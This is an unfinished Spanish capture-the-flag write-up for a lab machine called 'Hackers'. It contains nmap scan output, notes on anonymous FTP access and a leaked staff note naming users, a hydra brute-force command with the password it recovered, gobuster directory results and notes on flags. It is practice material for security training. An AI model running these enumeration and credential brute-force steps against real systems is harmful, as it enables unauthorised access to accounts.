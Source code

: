 # Hackers
Por ahora paso de seguir con esta máquina es todo bruteforcing 
## Initial Scan
```
21/tcp   open  ftp     vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           400 Apr 29 03:57 note
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.95.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ff:ea:b0:58:35:79:df:b3:c1:57:01:43:09:be:2a:d5 (RSA)
|   256 3b:ff:4a:88:4f:dc:03:31:b6:9b:dd:ea:69:85:b0:af (ECDSA)
|_  256 fa:fd:4c:0a:03:b6:f7:1c:ee:f8:33:43:dc:b4:75:41 (ED25519)
80/tcp   open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Ellingson Mineral Company
9999/tcp open  abyss?
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Tue, 18 Aug 2020 16:33:21 GMT
|     Content-Length: 1
|     Content-Type: text/plain; charset=utf-8
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request

```
## Enum
### FTP
El login anonimo esta habilitado veamos hasta donde tenemos acceso
#### Note
```
Note:
Any users with passwords in this list:
love
sex
god
secret
will be subject to an immediate disciplinary hearing.
Any users with other weak passwords will be complained at, loudly.
These users are:
rcampbell:Robert M. Campbell:Weak password
gcrawford:Gerard B. Crawford:Exposing crypto keys, weak password
```
#### Bruteforce 
```
hydra -L users.txt -P /home/pj/rockyou.txt ftp://10.10.161.14
[21][ftp] host: 10.10.161.14   login: rcampbell   password: milagros
```

### HTTP
#### Gobusting
```
/backdoor (Status: 301)
/contact (Status: 301)
/img (Status: 301)
/news (Status: 301)
/robots.txt (Status: 200)
/staff (Status: 301)
```

#### robots.txt
Tenemos el siguiente mensaje
```
Skiddies keep out.
Any unauthorised access will be forwarded straight to Richard McGill FBI and you WILL be arrested.
- plague
```
plague podria ser un usuario


# Flags
## Flag 1
En el ftp hay un archivo llamado .flag con la primera de las flags

## Flag 2
En el css de la pagina esta la segunda flag si lo leemos podemos verla 

## Flag 3

